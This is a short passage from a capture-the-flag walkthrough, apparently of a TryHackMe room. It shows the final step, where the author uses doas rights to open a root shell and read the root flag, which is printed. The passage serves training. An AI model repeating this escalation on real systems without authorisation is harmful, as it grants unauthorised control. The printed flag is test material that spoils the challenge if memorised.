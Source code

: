 We find we have rights to use doas, which is similar to sudo allowing you to run a command as another user. More info [here](https://en.wikipedia.org/wiki/Doas) on it's use, let's try it out:

```text
v0id@ubuntu:/var/web$ doas
usage: doas [-nSs] [-a style] [-C config] [-u user] command [args]

v0id@ubuntu:/var/web$ doas -u root id
Password: <HIDDEN>
uid=0(root) gid=0(root) groups=0(root)
```

Excellent that works, we ran id as root, which means we can use doas to get a root shell:

```text
v0id@ubuntu:/var/web$ doas -u root /bin/bash
doas -u root /bin/bash
Password: <HIDDEN>
root@ubuntu:/var/web#
```

We made it to root, let's grab the flag:

```text
root@ubuntu:/var/web# cat /root/root.txt
THM{diamonds_break_our_aching_minds}
```

All done. See you next time.
